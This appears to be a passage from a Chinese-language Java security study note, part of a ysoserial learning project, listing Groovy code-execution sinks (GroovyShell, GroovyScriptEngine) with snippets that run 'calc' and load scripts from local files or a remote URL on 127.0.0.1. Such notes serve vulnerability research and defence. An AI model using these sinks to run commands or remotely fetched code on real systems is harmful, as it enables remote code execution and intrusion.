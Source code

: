 #### GroovyShell

类中的`evaluate`方法有多个重载，支持有`GroovyCodeSource String File URI` 等参数类型，能够通过Groovy代码写入或者本地加载或者远程加载Groovy脚本来执行命令

其中的`parse`方法就是或者对应的Groovy脚本，之后调用run方法进行执行代码内容

```java
//直接执行Groovy代码
GroovyShell shell = new GroovyShell();
shell.evaluate("\'calc\'.execute()");
```

```java
//通过加载本地脚本
GroovyShell shell = new GroovyShell();
Script script = shell.parse(new File("src/main/java/ysoserial/vulndemo/GroovyTest.groovy"));
script.run();

GroovyShell shell = new GroovyShell();
shell.evaluate(new File("src/main/java/ysoserial/vulndemo/GroovyTest.groovy"));
```

```java
//通过加载远程脚本
GroovyShell shell = new GroovyShell();
shell.evaluate(new URI("http://127.0.0.1:8888/GroovyTest.groovy"));
```

这里的url和Groovy代码同样可以通过GroovyCodeSource封装之后执行`evalute`执行代码

#### GroovyScriptEngine

GroovyScriptEngine可从指定的位置（文件系统、URL、数据库等等）加载Groovy脚本，并且随着脚本变化而重新加载它们

其构造方法存在重载的方式，可以指定远程`Url/根文件位置/ClassLoader`

之后通过使用run方法回显，有两个重载，一个是传入脚本名和对应的参数，另一个是脚本名和Binding对象

```java
//通过传入根路径之后调用对应的脚本
GroovyScriptEngine scriptEngine = new GroovyScriptEngine("src/main/java/ysoserial/vulndemo");
scriptEngine.run("GroovyTest.groovy", "");
```

```java
//通过调用远程url之后调用特定脚本
GroovyScriptEngine scriptEngine = new GroovyScriptEngine("http://127.0.0.1:8888/");
scriptEngine.run("GroovyTest.groovy", "");
```

```java
//通过Binding加载
GroovyScriptEngine scriptEngine = new GroovyScriptEngine("");
scriptEngine.run("src/main/java/ysoserial/vulndemo/GroovyTest.groovy", new Binding());
```

#### GroovyClassLoader
